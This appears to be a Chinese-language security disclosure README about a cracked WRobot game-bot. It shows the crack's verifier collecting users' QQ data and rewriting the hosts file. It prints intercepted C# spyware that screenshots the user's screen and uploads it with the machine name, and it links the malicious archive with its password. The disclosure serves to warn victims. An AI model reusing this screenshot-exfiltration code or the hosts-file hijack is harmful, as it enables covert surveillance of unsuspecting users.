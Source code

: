 # Wrobot 后门

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

<details>
<summary><code><strong>「 点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/2.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「 点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>


当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上

* #==== 下面两行是破解版WR转向服务器IP ====
* 43.252.229.37 tumadre.000webhostapp.com 
* 127.0.0.1 download.wrobot.eu

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「 点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「 点击查看截取信息」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

# 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「 点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

# 分析
研究过后发现 WRobotWOTLK\Bin\wManager.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 wManager.dll 内几处代码后正常启动。

# 个人推测
此破解程序由于是用于魔兽世界的私人服务器，私人服务器提供的登陆器大多数会被杀毒软件提示病毒而让游戏者关闭杀毒，故破解程序发布者很可能是通过设置多个障碍来在一个小范围内寻找合适的猎物并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。

一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。
